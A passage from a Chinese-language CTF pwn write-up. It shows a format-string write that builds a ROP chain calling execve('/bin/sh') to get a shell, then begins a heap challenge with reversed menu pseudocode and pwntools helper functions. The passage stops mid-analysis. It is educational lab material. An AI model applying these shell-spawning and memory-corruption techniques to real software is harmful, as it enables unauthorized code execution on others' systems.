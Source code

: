 ```python
fsb_write(ret_addr     , p64(pop_rdi_ret))
fsb_write(ret_addr +  8, p64(59))
fsb_write(ret_addr + 16, p64(pop_rsi_ret))
fsb_write(ret_addr + 24, p64(binsh_addr))
fsb_write(ret_addr + 32, p64(pop_rdx_rbx_ret))
fsb_write(ret_addr + 40, p64(0))
fsb_write(ret_addr + 48, p64(0))
fsb_write(ret_addr + 56, p64(pop_rcx_ret))
fsb_write(ret_addr + 64, p64(0))
fsb_write(ret_addr + 72, p64(syscall_addr), b"/bin/sh\x00")
```

同样可以成功 getshell。

## bonus
### 逆向 & 漏洞分析
使用 IDA 进行逆向，main 函数逻辑大致：

```c 
while (1) {
    printf("Choice> ");
    switch (read_num()) {
        case 0LL: create(); break;
        case 1LL: update(); break;
        case 2LL: show(); break;
        case 3LL: delete(); break;
        case 4LL: return 0LL;
        default: continue;
    }
}
```

接下来 create 函数中读取一个 index，进行检查，需要满足几个要求：

- index <= 0xF
- *(&malloc_base + 2\*index) 为 0（没有记录过）
- size_record[2 * index] 为 0（没有记录过）

满足的情况下读一个 size 要求 <= 0x400，之后 malloc(size) 并将返回地址记录到 &malloc_base + 2*index 处，记录 size_record[2 * index] 为 size。

其他函数就更简单了，update 使用 read(0, ..., size_record[2\*index]) 读取 stdin 到指定堆块中。show 通过 write(1, ..., size_record[2*index]) 将堆块全部内容输出。delete 通过 free 释放堆块。

可以编写工具函数来方便的触发这几种操作：

```python
def create(idx, size):
    info(f"create {idx} {size}")
    p.sendlineafter(b"Choice> ", b"0")
    p.sendlineafter(b"index> ", str(idx).encode())
    p.sendlineafter(b"size> ", str(size).encode())

def update(idx, content):
    info(f"update {idx} {content}")
    p.sendlineafter(b"Choice> ", b"1")
    p.sendlineafter(b"index> ", str(idx).encode())
    p.sendafter(b"content> ", content)

def show(idx):
    info(f"show {idx}")
    p.sendlineafter(b"Choice> ", b"2")
    p.sendlineafter(b"index> ", str(idx).encode())
    p.recvuntil(b"content> ")
    # return p.recvline()

```